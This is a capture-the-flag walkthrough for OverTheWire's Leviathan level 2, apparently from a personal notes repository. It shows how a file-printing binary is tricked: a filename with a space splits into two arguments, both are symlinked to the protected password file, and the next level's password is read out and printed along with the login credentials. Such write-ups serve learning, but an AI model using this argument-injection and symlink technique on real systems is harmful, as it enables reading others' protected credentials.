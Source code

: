 # Leviathan Level 2 → Level 3
(Updated: 12 August 2025)

## Credentials
- **Username:** `leviathan2`
- **Password:** `NsN1HwFoyN`

## Connection
```bash
ssh leviathan2@bandit.labs.overthewire.org -p 2223
```

## Hints & Commands Learned
- ln -s

## Steps to Solve
1. Step 1 – Use `ssh` to get access to OverTheWire labs.
2. Step 2 – Use `ls -la` to list files and you can see that we have a `printfile` binary files (which owned by `leviathan3`).
3. Step 3 - Call `./printfile /etc/leviathan_pass/leviathan3` and you can see we can't get the password.
5. Step 5 - Use previous knowledge `ltrace ./printfile bash_logout` we can see that `printfile` use `bin/cat` to print the content of `bash_logout`.
6. Step 6 - Try with file with name has space `mktemp -d` and `touch /tmp/tmp.xxxxxx/test file.txt`, then `./printfile /tmp/tmp.xxxxxx/test file.txt` we get the result:
```
/bin/cat: /tmp/tmp.xxxxxx/test: No such file or directory
/bin/cat: /tmp/tmp.xxxxxx/file.txt: No such file or directory
```
7. Step 7 - Let's add `test` and `file.txt` files, but we have to log the password from `/etc/leviathan_pass/leviathan3`.
8. Step 8 - Use `ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.xxxxxxx/test` and `ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.xxxxxxx/file.txt` to link two files to the password.

9. Step 9 - Run `./printfile /tmp/tmp.xxxxxx/test file.txt` and you can see the password in the first line.
***Note: `chmod 777 /tmp/tmp.xxxxxx` if you have permission denied.***

10. Step 10 - Take the password to the next level.

## Next Level Password
`f0n8h2iWLP`
